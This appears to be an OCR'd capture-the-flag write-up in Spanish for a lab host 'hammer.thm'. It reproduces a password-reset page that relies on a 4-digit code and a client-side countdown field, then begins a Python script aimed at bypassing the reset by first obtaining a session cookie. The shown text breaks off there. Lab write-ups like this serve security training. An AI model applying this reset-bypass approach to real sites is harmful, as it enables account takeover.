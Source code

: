``` 
    <title>Reset Password</title>
     <link href="/hmr_css/bootstrap.min.css" rel="stylesheet">
    <script src="/hrm_js/jquery-3.6.0.min.js"></script>
	    <script>
	let countdownv = 180;
        function startCountdown() {
            let timerElement = document.getElementById("countdown");
			const hiddenField = document.getElementById("s");
            let interval = setInterval(function() {
                countdownv--;
				 hiddenField.value = countdownv;
                if (countdownv <= 0) {
                    clearInterval(interval);
					//alert("hello");
                   window.location.href = 'logout.php'; 
                }
                timerElement.textContent = "You have " + countdownv + " seconds to enter your code.";
            }, 1000);
        }
    </script>
</head>
<body>
<div class="container mt-5">
    <div class="row justify-content-center">
        <div class="col-md-4">
                            <h3 class="text-center">Enter Recovery Code</h3>
                <p id="countdown">You can enter your code in 180 seconds.</p>
                <form method="POST" action="">
                    <div class="mb-3">
                        <label for="recovery_code" class="form-label">4-Digit Code</label>
                        <input type="text" class="form-control" id="recovery_code" name="recovery_code" required>
						  <input type="hidden" class="form-control" id="s" name="s" required>
                    </div>
                    <button type="submit" class="btn btn-primary w-100">Submit Code</button> 
					<p></p>
					<button type="button" class="btn btn-primary w-100" style="background-color: red; border-color: red;" onclick="window.location.href='logout.php';">Cancel</button>
                </form>
                <script>startCountdown();</script>
                    </div>
    </div>
</div>
</body>
</html>
```
El objetivo era bypassear el reset_password
### codigo
```
import requests
import time

def get_phpsessid():
    """Request Password Reset and retrieve the PHPSESSID cookie using requests library"""
    try:
        # Define request parameters
        url = "http://hammer.thm:1337/reset_password.php"
        data = {"email": "tester@hammer.thm"}
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        
        # Send POST request
```